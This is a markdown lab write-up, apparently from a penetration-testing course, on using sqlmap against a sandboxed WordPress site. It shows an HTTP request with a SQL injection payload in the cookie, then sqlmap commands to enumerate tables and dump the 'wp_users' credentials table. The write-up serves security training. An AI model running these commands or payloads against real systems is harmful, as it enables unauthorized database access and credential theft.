




### 24.2.2.2 Exercise
#### 1. Use sqlmap to exploit the SQL injection and extract the username and password.

1. Received a value GET Request header with the cookie parameter and marked for SQLMap where to inject the code:

   ```http
   GET / HTTP/1.1
   Host: sandbox.local
   User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Connection: close
   Cookie: wp_sap=["1650149780')) OR 1=2 *#"];
   Upgrade-Insecure-Requests: 1
   Cache-Control: max-age=0
   ```

2. Verified that a SQL Injection vulnerability does exist:

   ```bash
   sqlmap -r sqlmap-getrequest.txt --dbms=mysql
   ```

   

3. Enumerate the tables

   ```bash
   sqlmap -r sqlmap-getrequest.txt --dbms=mysql --tables
   ```

   

4. Enumerate the columns of table "wp_users" to check it out.

   ```bash
   sqlmap -r sqlmap-getrequest.txt --dbms=mysql -T'wp_users' --columns
   ```

   

5. Dumped content of "wp_users"

   ```bash
   sqlmap -r sqlmap-getrequest.txt --dbms=mysql -T'wp_users' --dump
   ```

   

